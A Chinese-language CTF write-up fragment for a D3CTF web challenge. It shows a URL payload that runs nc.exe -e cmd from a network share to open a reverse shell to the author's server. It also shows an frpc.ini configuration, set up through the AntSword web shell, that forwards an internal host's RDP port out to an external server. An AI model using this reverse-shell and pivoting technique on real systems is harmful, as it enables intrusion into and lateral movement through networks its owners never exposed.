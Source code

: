 nc.exe -e cmd 反弹shell

```
http://35547429ed.fakeonelinephp.d3ctf.io/?orange=\\**********\share\test5&a=..\..\..\..\nc2.exe+-e+cmd+******+30023 
```

在自己的服务器上监听30023端口，然后等shell过来
![反弹shell成功](img/38e0ca8fc63453aa9043e9b3084020e1.png)

通过蚁剑修改web服务器主机上的frpc.ini
server_port是服务器上启动frps的端口
remote是指把本地端口3389转发到的远程端口30016端口
local_ip = 172.19.97.8是因为我们要转发的是172.19.97.8这台内网机器，而不是127.0.0.1这台外网web机器。

```
 [common]

server_addr = ********
server_port = 30011
auto_token=12345678@com
[RDP3389_2]
type = tcp
local_ip = 172.19.97.8
local_port = 3389
remote_port = 30016
subdomain = yk 
```
